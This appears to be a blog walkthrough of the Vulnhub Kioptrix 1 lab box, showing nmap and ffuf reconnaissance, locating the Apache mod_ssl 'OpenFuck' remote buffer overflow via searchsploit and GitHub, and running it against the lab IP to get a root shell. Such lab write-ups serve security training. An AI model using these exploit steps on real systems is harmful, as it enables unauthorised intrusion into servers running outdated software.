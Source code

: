 ```yaml
---
layout: post
title: Vulnhub Kioptrix 1 Walkthrough
categories: [Vulnhub]
tags: [ linux]
toc: true

---
```


![http80](/assets/images/kioptrix1/vuln.png)

Kioptrix 1 was an easy box to root , using kernel exploit and getting foothold by abusing an old mod ssl 

## Reconnaissance

nmap scan show 5 ports open : 

* ssh : 22
* 80: http
* 111 : rpcbind
* 443 : https
* 139 : netbios-ssn

```bash

root@kali nmap -p- -sC -sV 192.168.1.104 --min-rate=10000 -v

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey: 
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_sshv1: Server supports SSHv1
80/tcp  open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp open  rpcbind     2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1           1024/tcp   status
|_  100024  1           1024/udp   status
139/tcp open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b

```
## Port 80

i'll start with port 80 because web has a large attacking surface 

![http80](/assets/images/kioptrix1/index.png)

ffuzing the web using fuff didn't yiel much interesting results , just static pages :

```bash

ffuf -u http://192.168.1.104/FUZZ -w /oscp/wl/raft-medium-words.txt -mc all -ac -c -v

[Status: 301, Size: 293, Words: 19, Lines: 10, Duration: 35ms]
| URL | http://192.168.1.104/usage
    * FUZZ: usage

[Status: 301, Size: 294, Words: 19, Lines: 10, Duration: 151ms]
| URL | http://192.168.1.104/manual
    * FUZZ: manual

[Status: 301, Size: 292, Words: 19, Lines: 10, Duration: 118ms]
| URL | http://192.168.1.104/mrtg

```

Navigating to http://192.168.1.104/usage gives us a dashboard for usage statistics :

![http80](/assets/images/kioptrix1/usage.png)

## Port 443

I shifted my focus to port 443 , the first thing i noticed in nmap result was the old mod ssl version 

```bash
 mod_ssl/2.8.4
```

so by using searchsploit we can see a existing exploit :

```bash

searchsploit mod ssl

Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)                                                           | unix/remote/47080.c

```
## Root Shell
But by searching around i found an updated version in github that gives us a root shell directly :

```bash

https://github.com/heltonWernik/OpenLuck
```

 I'll follow the steps mentionned in the page and choose 0x6b target for redhat as shown in the exploit target list : 

```bash
./OpenFuck 0x6b 192.168.1.104 443

[+] Attached to 6505
[+] Waiting for signal
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
whoami
root

```

